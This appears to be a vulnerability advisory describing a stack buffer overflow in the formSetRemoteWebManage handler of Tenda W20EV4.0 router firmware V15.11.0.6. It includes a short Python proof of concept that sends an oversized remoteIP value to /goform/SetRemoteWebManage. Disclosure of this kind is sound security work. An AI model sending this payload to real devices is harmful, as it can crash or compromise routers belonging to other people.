 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2707.html

## Affected version

W20EV4.0 V15.11.0.6

## Vulnerability details

The Tenda W20EV4.0 V15.11.0.6 firmware has a stack overflow vulnerability in the `formSetRemoteWebManage` function. The `ip` variable receives the `remoteIP` parameter from a POST request and is used in statement `strcpy((char *)temp_value, (const char *)ip);`, which caused the buffer overflow attack.

![image-20240409130925063](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409130925063.png)

![image-20240409130854266](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409130854266.png)

![image-20240409130910804](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409130910804.png)

The user-provided `remoteIP` can trigger this security vulnerability.

## POC

```python
import requests

IP = "192.168.84.101"
url = f"http://{IP}/goform/SetRemoteWebManage"
payload = b'a'*2000
data = {"remoteType": 1,"remoteIP": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240409110959426](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240416114043980.png)

